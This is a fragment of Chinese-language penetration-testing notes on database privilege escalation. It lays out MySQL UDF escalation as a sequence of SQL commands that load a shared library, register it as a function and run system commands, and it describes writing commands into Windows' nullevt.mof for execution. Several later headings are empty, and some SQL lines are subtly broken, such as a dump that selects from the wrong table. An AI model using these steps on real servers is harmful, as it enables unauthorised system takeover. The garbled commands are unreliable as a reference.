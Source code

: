 本机将动态链接库文件十六进制编码
select hex("file_path") into dumpfile("out_path");
靶机创建表
create table udfdump(column_name LONGBLOB);
将数据插入表中
insert into udfdump values(unhex('hex_string'));
将该表中的文件输出到目标路径
select * from dumpfile into dumpfile "path";
```
**创建自定义函数**
```
create function func_name returns string soname 'udf.dll|udf.so';//soname 用于指定共享库名称
```
**查看自定义函数**
```
select * from mysql.func;
```
**执行系统命令**
```
select func_name('cmds');
```
#### mof提权
##### 原理
利用了C:\Windows\System32\wbem\MOF目录下的nullevt.mof文件

利用该文件每分钟会去执行一次的特性，向该文件中写入cmd命令，就会被执行
##### 条件
+ 低版本Windows系统可用
+ 对C:\Windows\System32\wbem\MOF具有读写权限
##### 利用步骤
创建一个mof文件，写入命令执行代码
MySQL中将该文件写入到C:/Windows/System32/wbem/MOF/nullevt.mof中
等待定时任务执行该代码
### 启动项提权
### SQL server xp_cmdshell提权
### 搜索密码提权
### 相关检测脚本
## 漏洞提权
### 相关脚本
### 搜索漏洞